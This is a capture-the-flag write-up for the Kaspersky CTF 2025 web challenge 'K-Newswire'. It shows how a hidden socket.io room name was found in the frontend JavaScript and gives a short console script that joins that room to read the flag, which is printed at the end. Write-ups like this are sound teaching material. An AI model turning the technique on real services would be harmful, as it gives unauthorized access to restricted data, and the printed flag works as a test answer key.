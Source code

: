 

# WhiteDukesDZ - Kaspersky CTF 2025 Writeup: K-Newswire

![WhiteDukesDZ Logo](challenge/web-k-newswire.png)

---

## Challenge Summary

This challenge featured a straightforward web application simulating a news channel. The objective was to analyze the application for vulnerabilities and exploit them to retrieve the flag.

## Application Analysis

Upon accessing the web application, we were greeted with a main page designed to resemble a news channel:

![WhiteDukesDZ Logo](demonstration/web-k-newswire-front.png)

Inspecting the browser's DevTools revealed a connection to a socket origin:

![WhiteDukesDZ Logo](demonstration/web-k-newswire-sockets.png)

This socket provided us with a session ID, automatically joined us to the public room, and began streaming news updates. The key detail was the following message for joining the public room:

```txt
["join",{"room":"public"}]
```

### Security Observations

Further inspection in DevTools uncovered a JavaScript file:

![WhiteDukesDZ Logo](demonstration/web-k-newswire-js.png)

Careful analysis of this JS file revealed that the frontend is a Vite React app (as indicated by variables like `VITE_SOCKET_URL`). Most importantly, we identified the following snippet:

```js
const kh = Object.freeze({ public: "public", secret_announcements: "secret_announcements" });
```

And subsequently:

```js
{ t(!0), p.emit("join", { room: kh.public }) }
```

This explains how users are joined to the `public` room by default, and also hints at the existence of another room: `secret_announcements`.

---

## Solution

Based on our findings, we crafted the following exploit JavaScript to join the hidden `secret_announcements` room. This code can be injected directly into the browser's DevTools console:

```js
let script = document.createElement('script');
script.src = 'https://cdn.socket.io/4.7.5/socket.io.min.js';
script.onload = function() {
  const socket = io('/', { path: '/socket.io', transports: ['websocket'] });
  socket.emit('join', { room: 'secret_announcements' });
  socket.on('news', (msg) => console.log(msg));
  socket.on('news_backlog', (msg) => console.log(msg));
};
document.head.appendChild(script);
```

If successful, this script will join the `secret_announcements` room and display the flag as a news message:

![WhiteDukesDZ Logo](demonstration/web-k-newswire-flag.png)

Obtained flag:

```txt
kaspersky{h07_n3ws_fr0m_unl0ck3d_s3cre7_ch4nn3ls}
```
